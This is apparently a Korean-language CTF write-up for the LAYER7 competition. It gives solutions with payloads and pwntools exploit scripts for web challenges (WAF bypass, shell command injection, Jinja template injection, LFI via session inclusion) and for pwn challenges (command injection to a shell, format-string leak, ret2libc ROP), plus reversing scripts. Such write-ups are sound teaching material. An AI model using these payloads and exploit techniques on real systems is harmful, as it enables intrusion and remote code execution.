

<br>

<h2>url routing</h2>


```php
<?php 
    error_reporting(0); 
    require __DIR__."/secret.php"; // flag is here 

    # waf 
    $url_query = parse_url($_SERVER['REQUEST_URI'], PHP_URL_QUERY); 
    if(stripos($url_query, 'flag') !== false){ 
        die('no hack'); 
    } 

    # routes 
    if(isset($_GET['author'])){ 
        die('safflower'); 

    }else if(isset($_GET['flag'])){ 
        die($flag); 
         
    }else{ 
        highlight_file(__FILE__); 
        die; 
         
    }
```


코드는 GET으로 받는 flag파라미터가 있으면 된다

parse_url 에서 url_encoding 된것은 처리를 안해준다는 것을 이용하면 된다

<http://dm1536803965686.fun25.co.kr:23902/5099d288498b4e17/?%66%6c%61%67>

FLAG : LAYER7{4f3a6c9f4b9c36ed3c39b8d3e14aa4fb}


<br>
<h2>meow</h2>

```php
<?php 
    require __DIR__.'/flag.php';

    if(isset($_GET['file'])){ 
        if(preg_match('/flag|\'|"|`|\\\\|;|\(|\)|\*|\?|\.\.|\//i', $_GET['file'])){ 
            die('no hack'); 
        } 
        system('cat "'.$_GET['file'].'"'); 

    }else{ 
        header('Location: ?file=test.txt'); 

    } 

    echo '<hr>'; 
    highlight_file(__FILE__);

```


GET으로 받는 flag 파라미터에 출력하고 싶은 파일을 넣어주면 된다

flag.php 를 적절히 우회해서 넣어주면 된다

A$@B == AB 라는 걸 이용해서

fl@ag.php = flag.php

[http://dm1536803965686.fun25.co.kr:23903/74cdf2ead84d1743/?file=fl$@ag.php

FLAG : LAYER7{070e260558a03c1494817459ebbc060e}
<br>


<h2>msg</h2>

[http://dm1536803965686.fun25.co.kr:23908/?msg=원하는_내용](http://dm1536803965686.fun25.co.kr:23908/?msg=원하는_내용)

GET으로 받는 msg 파라미터의 내용을 그대로 출력 해준다. 

난 이 문제와 비슷한 유형을 Tokyowesterns CTF 2018 에서 봤고 이름은 jinja tempelete injection 이다.


문자열 필터링으로는 config , app , () , .. 등등 막혀있다

난 플래그가 config에 있을 것으로 보고 적절히 우회해서 풀었다.

get_flashed_messages.\_\_globals__\[‘current_ap’’p’][‘con’’fig’]

FLAG : LAYER7{e276a535acdda862e3f76e5deec26373}


<br/>
<br/>


<h2>Sanity Check</h2>

FLAG : LAYER7{1_h0pE_Y0u_eNj0y_p14yiNg!}
<br/>
<br/>
<br/>

<h2>Shell program , revenge</h2>

unintended solution으로 풀었기 때문에 두 문제다 같은 페이로드로 풀 수 있었다.

우리는 2 번 ping을 이용해서 쉘을 딸 수 있다


```
 v3 = 'gnip';
  v4 = '" ';
  v5 = 0;
  v0 = strlen((const char *)&v3);
  strcpy((char *)&v3 + v0, s);
  *(_WORD *)((char *)&v3 + strlen((const char *)&v3)) = 34;
  printf("your command => %s\n", &v3, v2);
  system((const char *)&v3);
```

ping ‘v3(input)’ 이 들어간다

난 vim에서 esc + : + ! + command 하면 command가 실행 되는걸 이용했다.


메뉴에서 ping을 선택해 $(vim >&0 <&1) 을 보내고

vim에 들어가 esc + : +! + /bin/sh 로 쉘을 땃다.

두 문제다 이렇게 풀린다.


FLAG : LAYER7{Wha4AAa4t\_d03$\_th1$\_ch4r4ct3r\_r3tuuuuurn?\_$$$}

REVENGE_FLAG : LAYER7{w0W…H0w_t0_th1s_Fuck11111111ng_fi1t3r1ng_by-p4ss!!!!!!!!!???}

_(원래는 한문제 더 있었는데 출제오류로 없어졌지만 페이로드는 $(\tvim >&0 <&1) 였다...)_

<br/>
<br/>

<h2>Life game</h2>

```
if (select == 3) {
    rest();
} else if (select > 3) {
    if (select == 5) {
        bank();
    } else if (select < 5) {
        my_rest();
    } else if (select == 31337) {
hidden(); }
} else if (select == 1) {
    work();
} else if (select == 2) {
    training();
}
```

[메뉴] 

1. work

2. training

3. rest

4. bank

5. my_rest

6. hidden


__vuln__

```
if ( v1 <= loanmoney )
{
    loanmoney -= v1;
    money += v1;
    bar();
    printf("money : %d\n", money);
    printf("loan money : %d\n", loanmoney);
    bar();
}
```

bank 메뉴에서 3번에서 loanmoney를 입력 받을때 음수를 체크 안한다



__exploit__

1. 취약점을 이용해 loanmoney를 10000000 으로 만든다.
2. money 를 0으로 만든다.
3. hiddenmenu로 가 플래그를 출력한다.


__exploit code__

```python
from pwn import *
FLAG =""cnt = 1
while True:
     #p = process("./life_game")
     p = remote("layer7.kr",12000)
     p.sendline("5") #bank
     p.sendline("3")
     p.sendlineafter("?\n","-10000000")
     p.sendline("5")
     for i in range(4):
          p.sendlineafter("6. escape","2")
     p.sendline("5") #bank
     p.sendline("3")
     p.sendlineafter("?\n","10000000")
     p.sendline("5")
     p.sendline("31337")
     p.sendlineafter("one\n","%{0}$p".format(cnt))
     p.recvuntil(": ")
     k = p.recvuntil("G").replace("\n","").replace("G","")#[2:]#
     print k
     FLAG += k[2:].decode("hex")[::-1]
     if("}" in FLAG):
          print FLAG
          p.close()
          break
     log.info(FLAG)
     cnt+=1
     p.close()
```

FLAG :  LAYER7{L1f3..1s..P0k3m0n_or_D1g1m0n..wh4t?}

<br/>
<br/>

<h2>talmoru_party!~</h2>

```
void __cdecl menu()
{
  line();
  puts("1. LeeWonPeng");
  puts("2. AhnGeonHee");
  puts("3. MunSiWoo");
  puts("4. KwonMinSeong");
  puts("5. I'm talmo");
  line();
}
```

문제 컨셉은 탈모이다

```
printf(">>");
__isoc99_scanf("%d", &v1);
getchar();
if ( v1 == 2 )
{
    not_talmo();
}
else if ( v1 > 2 )
{
if ( v1 == 3 ) {
        munsiwoo_talmo();
    }
    else if ( v1 == 4 )
    {
        not_talmo();
    }

else if ( v1 == 1 )
{
    not_talmo();
}
}
while ( v1 != 5 );
puts("What???? I Hate talmo!!!!!!!!!!!!");
puts("Get out!!!!!!!");
return 0;
```

여기서 재미있던게 함수이름을 바꿨는데 하나빼고 다 바뀐다


__exploit__

```
void __cdecl munsiwoo_talmo()
{
  char s; // [esp+0h] [ebp-40h]
  puts("Wow!!!! gratz!!");
  puts("Your right!! MunSiWoo is \"Real talmo\"!!");
  puts("tell me your impression plz!");
  fgets(&s, 0x20000, stdin);
  printf("Your impression : ");
  puts(&s);
  puts("Good bye~~!");
}
```

munsiwoo_talmo에 들어가면 바로 rop할 수 있다.
참고적으로 fflush 함수가 있기때문에 dynstr 에서 sh만 쏙 빼내오면 된닿ᄒ

__exploit code__

```python
from pwn import *
#p = process("./talmo_party")
p =remote("layer7.kr",12003)
e = ELF("./talmo_party")
libc = ELF("./layer7.so.6")
pr = 0x0804884b
talmo = 0x80486e0
sh = 0x80482da
p.sendlineafter(">>","3")
print p.recv()
payload = "A"*(0x40 + 4)
payload += p32(e.plt["puts"])
payload += p32(pr)
payload += p32(e.got["puts"])
payload += p32(talmo)
p.sendline(payload)
p.recvuntil("Good bye~~!\n")
libc_base = u32(p.recv(4)) - libc.symbols["puts"]
log.info("libc_base : " + hex(libc_base))
p.sendline("A"*(0x40 + 4)+p32(libc_base+libc.symbols["system"])
+"A"*4+p32(sh))
p.interactive()
```

FLAG : LAYER7{1\_r3411y\_H4t3\_t41m0\_^\_\_\_\_\_\_^}


<br/>
<br/>
<h2>ezbt</h2>

이 문제는 어렵게 풀었다고 해야되나 정식 풀이법은 아닌 것 같다. 

1. 모든글자를 shift 연산을 해서 브루트 포싱함 
2. z3를 이용해 테이블 연산

1 , 2 방법 둘다 한번에 플래그가 나오진 않는다. 하지만 두개를 조합하면 플래그가 나온다

__첫번째 방법__

```python
import string
tb = [223, 209, 207, 212, 70, 58, 101, 85, 61, 125, 200, 103, 188,
104, 200, 104, 111, 63, 200, 100, 63, 48, 72, 65, 114, 191, 117,
200, 103, 244, 104, 72, 185, 238, 124, 200, 127, 92, 116, 92, 60,
92, 116, 60, 92, 116, 60, 119, 72, 254, 232, 103, 200, 73, 72, 72,
72, 72, 72, 72, 72, 200, 201, 98]
table = []
flag = ""
for i in string.printable:
     tmp = ord(i)
     tmp ^= tmp >>1
     table.append(tmp)
for i in range(0,64):
     in_a = False
     for j in range(len(table)):
          tmp = table[j]
          tmp ^= tmp>>1
          if tb[i] == tmp:
               flag +=string.printable[j]
               print "{0} : {1}".format(i,string.printable[j])
               in_a = True
     if(not in_a):
          flag+="+"
print flag
```

flag : ++++R7{D1d+y+u+us3+z3?\_Th+n+y+u\_++e+fOoO0Oo0Oo0l++y+^\_\_\_\_\_\_\_++}

__두번째 방법__

```python
from z3 import *
HEX = int(raw_input(),16)
a  = BitVec("A",64)
s=Solver()
s.add(a^(a>>1) == HEX)
print s.check()
print hex(int(str(s.model()).split(" “)[2].replace("]","")))
```

z3로 테이블 가져오고 브루트 포싱하면

LAYER7{D++++++++s3_z3?\_Th3n\_you\_4re\_fOoO\_guy\_^\_\_


1번 2번을 조합하고 어느정도 게싱을 하면 


FLAG : LAYER7{D1d\_y0u\_us3_z3?\_Th3n\_you\_4re\_fOoO0Oo0Oo0l\_guy\_^\_\_\_\_\_\_\_\_^}


<br/>
<br/>

<h2>TO$$</h2>


아직 스레드 리버싱은 익숙하지 않아 생각을 많이 했다.

“내가 개발자라면 스레드가 언제, 어떻게 돌아가는지도 파악하기 어려울 것이다. 그럼 아마 스레드가 다 끝나면 table에 플래그가 있지 않을까?” 라고 추측을 했다.

gdb로 돌렸더니 플래그가 나왔다.



FLAG : LAYER7{WelcOm_t0_T0$$_Wlord!}


내가 푼 문제는 여기서 끝이고 추가적으로 못 푼 문제에 대해 써보려한다

<br/>
<br/>

<h2>Margaret</h2>

이 문제는 내가 진짜 아쉬워 했다.

취약점은 lfi를 막기위해 ‘../‘ 를 ‘’ 로 replace 해주는데 ..././ 로 우회를 할 수 있다.

그리고 PHPSESSION 를 마지막이 html로 끝나게 해주고

/var/lib/php/sessions/sess_세션 을 해주면 

include $file 해서 원하는 명령어를 실행할 수 있었다.

phpinfo 까지 불러 왔지만 system call 이 안 불러지고 심지어 _ 도 필터링 되어 있어서 $_GET 도 쓰지 못했다. 우회하는 도중 시간이 끝나서 풀지 못했다.

너무 아쉬운 문제였다.


<br/>
<br/>
<h2>infinite_cat_theorem v2</h2>

이 문제 같은경우 한참을 고민하다가 발견 했는데

paper를 실행할 때의 두번째 인자가 내가 입력한 snack이라는 점을 이용해서

jmp rsi를 이용할 수 있어서 시도를 했는데 실패했다.

이유는 NX때문이었는데 풀이는 jmp [rsi] 를 하여 스택 피보팅을 하고 ROP를 하는 것이 었는데

대회때는 너무 쉘코드에만 집착되어있던 나머지 그걸 생각하지 못했다. 너무 아쉬웠다.


<br/>
<br/>
<h2>Exploitable Idea</h2>

이 문제는 내가 모르는 기법이고 16.04 를 문제에서 제시하는 것을 보아 내부 구조를 파악해

원하는 함수를 호출하는 것이라고 생각했다.(예를 들어 call eax)

그래서 gets , puts , exit를 약 4시간 동안 분석 했는데 모르겠다. 이 문제에 대해선 출제자분의 

익스플로잇 코드를 보고 싶다.


<br/>
<br/>
<h1>postbox</h1>

난 아직까지도 postbox에서 /proc/self/0 를 이용할려 했지만 실패했다.

난 이 문제에 대해 설명을 듣고 싶고 싶다.

<br/>
<br/>

<h2>소감</h2>

해킹공부를 시작한지 8개월 정도 아직 1년이 안됐는데 유명한 동아리에서 개최한 CTF에서

좋은 성적을 거둘 수 있어서 매우 좋았다.

ps. 문제 퀄리티가 너무 좋았다. 내년에는 더 좋은 문제들이 나오길 기대한당!.
